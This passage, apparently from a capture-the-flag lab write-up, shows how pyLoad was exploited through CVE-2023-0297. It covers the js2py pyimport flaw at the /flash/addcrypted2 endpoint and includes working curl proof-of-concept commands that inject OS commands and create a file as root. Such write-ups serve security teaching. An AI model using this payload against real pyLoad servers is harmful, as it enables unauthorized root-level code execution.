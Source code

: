 Both seem to load the same page, a [pyLoad](https://pyload.net/) login:

![image-20230524132739816](/img/image-20230524132739816.png)

### Exploit

#### Find

[pyLoad](https://pyload.net/) is a download manager written in Python. Searching for “pyload exploit” returns a bunch of references to CVE-2023-0297, a command injection vulnerability in PyLoad:

![image-20230524132937956](/img/image-20230524132937956.png)

#### CVE-2023-0297 Background

[This commit](https://github.com/pyload/pyload/commit/7d73ba7919e594d783b3411d7ddb87885aea782d) shows the changes that “fix arbitrary python code execution by abusing js2py functionality”. The change is very simple:

![image-20230524133112062](/img/image-20230524133112062.png)

[This gist](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad) does a really nice job describing the bug. The `/flash/addcrypted2` endpoint passes user input directly into a function named `eval_js`, which passes that into `js2py.eval_js`, a function form the `js2py` library. This library is designed to run JavaScript in this Python context.

`js2py` has a feature that’s on by default known as `pyimport`. It allows importing Python libraries to run alongside the JavaScript it’s executing. So if it’s not disabled, I can use `pyimport` to get Python code, and run that in an unsafe way. The patch above disables `pyimport` for pyLoad.

#### POC

There’s a POC in the gist above using `curl`:

```

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://<target>/flash/addcrypted2'

```

I’ll clean that up a bit and run it:

```

oxdf@hacky$ curl -d 'jk=pyimport os;os.system("touch /tmp/0xdf");f=function f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' http://127.0.0.1:9666/flash/addcrypted2

```

The `touch` command worked, as that file now exists, owned by root:

```

sau@pc:~$ ls -l /tmp/0xdf
-rw-r--r-- 1 root root 0 May 24 17:46 /tmp/0xdf

```
